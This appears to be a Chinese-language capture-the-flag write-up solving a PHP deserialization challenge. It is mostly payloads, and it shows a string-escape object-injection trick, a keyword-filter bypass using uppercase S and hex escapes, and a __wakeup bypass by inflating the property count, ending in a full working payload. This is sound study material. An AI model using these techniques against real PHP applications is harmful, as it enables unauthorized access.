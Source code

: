 本地./caches/下的内容
<pre><code>O:7:"someone":3:{s:12:"uuuuuuyour_name";s:60:"uuuuuuuuuuuuuuuuuuuuuuuuuuuuuuuuuuuuuuuuuuuuuuuuuuuuuuuuuuuu";s:12:"uuuuuuyour_pass";s:53:"AA";s:12:"uuuuuuyour_pass";s:2:"AA";s:5:"admin";i:1;}";s:8:"uuuuuuadmin";i:0;}
</code></pre>
即后get
<pre><code>function get($data){
$data = str_replace('uuuuuu', chr(0)."*".chr(0), $data);
return $data;
}
</code></pre>
会读取
<pre><code>"O:7:\"someone\":3:{s:12:\"\\u0000*\\u0000your_name\";s:60:\"\\u0000*\\u0000\\u0000*\\u0000\\u0000*\\u0000\\u0000*\\u0000\\u0000*\\u0000\\u0000*\\u0000\\u0000*\\u0000\\u0000*\\u0000\\u0000*\\u0000\\u0000*\\u0000\";s:12:\"\\u0000*\\u0000your_pass\";s:53:\"AA\";s:12:\"\\u0000*\\u0000your_pass\";s:2:\"AA\";s:5:\"admin\";i:1;}\";s:8:\"\\u0000*\\u0000admin\";i:0;}"
</code></pre>
忽略不可见字符后
读取到其中
<pre><code> [your_name:protected] => **********";s:12:"*your_pass";s:53:"AA
 [your_pass:protected] => AA 
 [admin:protected] => 1
</code></pre>
然而本题和admin<strong>没有</strong>任何关系
<h3>构造</h3>
<pre><code>O:6:"level1":1:{s:8:"username";O:6:"level2":1:{s:8:"username";O:6:"level3":1:{s:8:"username";s:5:"admin";}}}
</code></pre>
payload =
your[name.able=uuuuuuuuuuuuuuuuuuuuuuuuuuuuuuuuuuuuuuuuuuuuuuuuuuuuuuuuuuuu&your[pass.able=A";s:12:"uuuuuuyour_pass";O:6:"level1":1:{s:8:"username";O:6:"level2":1:{s:8:"username";O:6:"level3":1:{s:8:"username";s:5:"admin";}}}

<hr />
check不允许匹配到"username"字符串

于是准备绕过
类型的字符S使用大写
u=\75

<hr />
level2中有__wakeup()方法，于是绕过
<pre><code>O:6:"level2":2
</code></pre>
例如本题，
<pre><code>O:7:"someone":3:{s:12:"uuuuuuyour_name";s:60:"uuuuuuuuuuuuuuuuuuuuuuuuuuuuuuuuuuuuuuuuuuuuuuuuuuuuuuuuuuuu";s:12:"uuuuuuyour_pass";s:53:"AA";s:12:"uuuuuuyour_pass";s:2:"AA";s:5:"admin";i:1;}";s:8:"uuuuuuadmin";i:0;}
</code></pre>
我们有u x60，最后换成字符30个，于是反序列化会继续向下读取
<pre><code>s:60:"**********";s:12:"*your_pass";s:53:"AA    |（到此为止）
</code></pre>
然后"正常闭合，这样接下来就会读取我们构造的字符串，字符串成功逃逸
<pre><code>";s:12:"uuuuuuyour_pass";s:2:"AA";s:5:"admin";i:1;}|（到此为止）
</code></pre>
下面无用了，因为}正常闭合，反序列化结束
<pre><code>";s:8:"uuuuuuadmin";i:0;}
</code></pre>
以上是admin的方法，取flag原理方法同上
<h3>最终</h3>
payload =your[name.able=uuuuuuuuuuuuuuuuuuuuuuuuuuuuuuuuuuuuuuuuuuuuuuuuuuuuuuuuuuuu&your[pass.able=A";s:12:"uuuuuuyour_pass";O:6:"level1":1:{S:8:"\75sername";O:6:"level2":2:{S:8:"\75sername";O:6:"level3":1:{S:8:"\75sername";s:5:"admin";}}}
